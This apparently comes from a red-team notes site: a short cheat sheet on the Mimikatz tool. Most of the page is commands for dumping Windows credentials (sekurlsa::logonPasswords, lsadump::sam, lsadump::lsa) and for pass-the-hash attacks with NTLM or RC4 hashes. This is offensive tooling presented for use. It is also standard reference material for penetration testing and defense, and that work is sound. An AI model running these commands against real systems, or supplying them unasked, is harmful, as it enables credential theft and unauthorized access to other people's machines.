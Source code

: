 # Mimikatz

<div class="row row-cols-lg-2"><div>

[mimikatz](https://github.com/gentilkiwi/mimikatz) <small>(18.4k ⭐)</small> is the most popular tool to dump Windows credentials or perform attacks such as [Pass-the-hash/Pass-the-ticket](/cybersecurity/red-team/s4.privesc/index.md#pass-the-xxx).

```shell!
PS> .\mimikatz.exe
mimikatz# privilege::debug
mimikatz# # run commands
mimikatz# exit
```

To dump credentials, hashes, tickets, etc. you can use:

```shell!
mimikatz# sekurlsa::logonPasswords full
mimikatz# lsadump:: # show the list of modules
mimikatz# lsadump::sam
mimikatz# lsadump::lsa
```
</div><div>

To perform a pass-the-hash attack using a `rc4` or `NTML` hash:

```shell!
mimikatz# sekurlsa::pth /user:xxx /rc4:XXX /domain:xxx.yyy /run:cmd.exe
mimikatz# sekurlsa::pth /user:xxx /NTLM:XXX /domain:xxx.yyy /run:cmd.exe
```
</div></div>